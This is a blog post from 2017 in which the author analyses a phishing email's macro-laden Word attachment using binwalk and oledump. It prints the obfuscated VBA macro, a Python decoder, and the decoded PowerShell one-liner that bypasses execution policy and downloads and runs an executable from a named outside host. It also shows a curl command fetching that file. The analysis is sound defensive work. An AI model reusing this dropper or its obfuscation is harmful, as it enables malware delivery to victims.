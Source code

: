 ```yaml
---
layout: post
title:  "Analyzing maldocs with oledump"
date:   2017-01-29 07:00:00
author: qkaiser
excerpt: |
    I always worked for the red team but as I was going through my spam folder this morning I decided I’d give a try at analyzing malicious attachments. I also secretly always wanted to check out Didier Stevens’ oledump tool so this was a good excuse :)
comments: true
categories: reversing security malware macros
---
```


I always worked for the red team but as I was going through my spam folder this morning I decided I'd give a try at analyzing malicious attachments. I also secretly always wanted to check out Didier Stevens' [oledump](https://blog.didierstevens.com/programs/oledump-py/) tool so this was a good excuse :)

#### E-mail

The mail looked like this:

{% highlight text %}
Date: Fri, 27 Jan 2017 12:26:06 +0100
From: Mihail <hunter@puppetlabs.com>
Subject: question
Reply-To: Mihail <AdamBuchbinder@tutanota.com>
X-Mailer: Microsoft Windows Live Mail 14.0.8117.416
Message-ID: <1CE6AE0E2AFED033EFEAA3140087FFB0@sh>

Hey. I found your software is online. Can you write the code for my project?
Terms of reference attached below.
The price shall discuss, if you can make. Answer please.
{% endhighlight %}

The attachment is a file named *New.gz* allegedly containing the "Terms of reference" Mihail is talking about.

#### Malicious attachment fingerprinting

So let's dive in ! I launched a VM and ran some basic checks on the file. binwalk tells us that the file is actually a RAR archive, even though the extension says *.gz*

{% highlight sh %}
$ binwalk New.gz 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             RAR archive data, first volume type: MAIN_HEAD
{% endhighlight %}

The archive contains a document named *New.doc*, apparently a Microsoft Office document:

{% highlight sh %}
$ file New.doc 
New.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.1, Code page: 1251, Template: Normal, Last Saved By: Normal, Revision Number: 2, Name of Creating Application: Microsoft Office Word, Create Time/Date: Fri Jan 27 05:14:00 2017, Last Saved Time/Date: Fri Jan 27 05:14:00 2017, Number of Pages: 1, Number of Words: 0, Number of Characters: 5, Security: 0
{% endhighlight %}

#### Malicious attachment analysis

I can finally try oledump !

{% highlight sh %}
$ python oledump.py -i New.doc
1:       114 '\x01CompObj'
2:      4096 '\x05DocumentSummaryInformation'
3:      4096 '\x05SummaryInformation'
4:     11555 '1Table'
5:       367 'Macros/PROJECT'
6:        41 'Macros/PROJECTwm'
7: M   84985 'Macros/VBA/ThisDocument'
8:     16765 'Macros/VBA/_VBA_PROJECT'
9:       517 'Macros/VBA/dir'
10:       216 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Item'
11:       341 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Properties'
12:     15974 'WordDocument'
{% endhighlight %}

We can see that there is a VBA macro on stream 7, let's extract it with oledump:

{% highlight sh %}
$ python oledump.py -s 7 -v New.doc > payload.vba
{% endhighlight %}

The VBA payload contains a shit load of "obfuscated" code but we can find the interesting part by pinpointing where the call to `Shell` happens. We can see in the excerpt below that the argument provided to `Shell` is a concatenation of the `sraqteby` array elements. Yes, there are some array indexing bullshit. I doubt this ever made reversing difficult :D

{% highlight vbnet %}
sraqteby = Array("CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E",
"b^", "cL", "i^", "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE", "'""")

ozqaqzusw = Array("odevzu", "qvonwav", "ohizef", "decaqo", "azxut", Join(sraqteby, ""), "irtubgu")(5)


eratcyke = ucbejja & ubep & ogyl
zema2 = rbipole & scivikwo & ynehsoc & qhyxob
vnilden3 = ejveme & omvyrzi & ezeln & nrezi
uhysylhi = ycijt & yzowr & olec
orybm5 = uzsygip & uhyhges & rmyle
mufqim = wnisofmo & nukag
ywgodyr = Array(mufqim, orybm5, uhysylhi, vnilden3, zema2, Shell(Array(ozqaqzusw)(0), 0), eratcyke)(5)
{% endhighlight %}

I opened a Python interpreter and executed the code below to get the argument provided to `Shell`:

{% highlight python %}
a = ["CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E", "b^", "cL", "i^",
 "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE"]

print  "".join(a).replace("^", "")
{% endhighlight %}

Which gave me the following one-liner that downloads an executable with PowerShell and executes it (URL escapes are mine):

{% highlight text %}
"CMD.exe /C poWeRsHElL.EXe     -eXECUTIonPoLICy bypAss    -NOprOFile -winDowSTyLE    hIDden   (neW-ObjeCT    sySteM.NET.WEbcLiEnT).dOWNloadFIlE('http://nicklovegrove[.]co[.]uk/wp-content/margin2601_onechat_word.exe','%APPdAta%.Exe');sTArT-pROCEsS '%APpdaTa%.ExE"
{% endhighlight %}

Let's hash it !

{% highlight sh %}
$ curl http://nicklovegrove.co.uk/wp-content/margin2601_onechat_word.exe | sha1sum
0df45a365e2135531b0beba8e50d0453eee70047
{% endhighlight %}

Submitting the hash to [VirusTotal](https://www.virustotal.com/en/file/3f73b09d9cdd100929061d8590ef0bc01b47999f47fa024f57c28dcd660e7c22/analysis), we can see it's already detected as a Trojan by some AV. Some analyst provided the download URL in comments.


That's all for now, I'm not good enough at reversing Windows executables to go further :)
